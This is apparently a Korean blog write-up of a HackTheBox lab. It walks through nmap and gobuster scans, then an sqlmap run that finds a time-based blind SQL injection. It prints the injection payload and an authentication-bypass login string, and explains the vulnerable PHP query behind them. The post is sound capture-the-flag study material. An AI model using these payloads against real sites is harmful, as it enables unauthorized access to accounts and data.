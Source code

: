 ```yaml
---
title: HTB Appointment Write-up
categories: [HackTheBox, StartingPoint]
tags: [HackTheBox, Gobuster, Sql, Injection]
image:
    path: /assets/image_post/20240207111923.png
---
```

대상 서버에서 동작하는 서비스에 대해 먼저 알아보자. 

``` shell
 read-min 🇰   ~  nmap 10.129.198.242 -sV -sC
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 14:07 KST
Nmap scan report for 10.129.198.242
Host is up (0.26s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE     VERSION
80/tcp    open     http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
```

gobuster를 위한 wordlist는 아래 경로에서 다운로드 했다.

> https://raw.githubusercontent.com/aels/subdirectories-discover/main/dsstorewordlist.txt

gobuster로 스캔한 결과는 아래와 같다. 유의미한 결과가 있지는 않은 것 같다.
``` bash
# gobuster dir -u http://10.129.198.242 -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.198.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 4896]
/images               (Status: 301) [Size: 317] [--> http://10.129.198.242/images/]
/js                   (Status: 301) [Size: 313] [--> http://10.129.198.242/js/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.198.242/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.198.242/fonts/]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.198.242/vendor/]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
===============================================================
```

그렇다면 80 port에 직접 브라우저로 접근 시 아래와 같이 로그인 화면이 나온다. SQL Injection을 통해 로그인하라는 내용 같다.
![](../assets/image_post/20240204150016.png)

바로 간단한 구문을 테스트해도 되지만, 다양한 툴을 접해보는 것도 목적이기에 sqlmap 툴을 사용해봤다.

``` bash
# sqlmap -u "http://10.129.198.242/" --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:03:22 /2024-02-04/

[06:03:22] [INFO] testing connection to the target URL
[06:03:22] [INFO] checking if the target is protected by some kind of WAF/IPS
[06:03:23] [INFO] testing if the target URL content is stable
[06:03:23] [INFO] target URL content is stable
[06:03:23] [CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1'). You are advised to rerun with '--forms --crawl=2'

[*] ending @ 06:03:23 /2024-02-04/
```

Critical의 내용과 같이 옵션을 추가해서 다시 진행하였다. 아래와 같이 취약점이 존재한다는 결과에 대해 확인이 가능하다.

``` shell
# sqlmap -u "http://10.129.198.242/" --batch --forms --crawl=2
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:03:50 /2024-02-04/

do you want to check for the existence of site's sitemap(.xml) [y/N] N
[06:03:50] [INFO] starting crawler for target URL 'http://10.129.198.242/'
[06:03:50] [INFO] searching for links with depth 1
[06:03:51] [INFO] searching for links with depth 2
please enter number of threads? [Enter for 1 (current)] 1
[06:03:51] [WARNING] running in a single-thread mode. This could take a while
do you want to normalize crawling results [Y/n] Y
do you want to store crawling results to a temporary file for eventual further processing with other tools [y/N] N
[1/1] Form:
POST http://10.129.198.242/
POST data: username=&password=&remember-me=on

...skip...

[06:04:45] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[06:04:45] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 96 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=pMzq' AND (SELECT 6086 FROM (SELECT(SLEEP(5)))HBmG) AND 'UXcN'='UXcN&password=JaMC&remember-me=on
---
```

취약점 존재 여부에 대해선 확인하였으니 아래와 같이 로그인을 수행할 수 있다.

> username: admin   / pw: 1' or''=' 

로그인 시 아래와 같이 정답 flag가 노출된다.

![](../assets/image_post/20240204151501.png)

---

문제에 대한 풀이는 끝났지만, SQL Injection에 대해 추가적으로 알아보고자 아래에 추가적으로 정리한 내용이다. 우선 공격에 사용된 코드를 통해 서버 측에서는 받아온 입력 값을 그대로 db 쿼리에 사용하고 있음을 알 수가 있다. 대략적인 php 코드는 아래와 같을 것이다.

``` php
$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
``` 

이러한 상태에서 위 공격 구문을 대입하면 아래와 같은 형태로, `''=''`은 true가 되므로 password는 항상 참의 값이 된다.

``` php
"SELECT * FROM users WHERE username='$username' AND password='1' or''=''"
```

SQL Injection은 실제 탐지한 경험이 없다보니, 많이 낯선 영역 같다. 이 쪽을 좀 더 많이 해봐야겠다.

![](../assets/image_post/20240204151558.png)
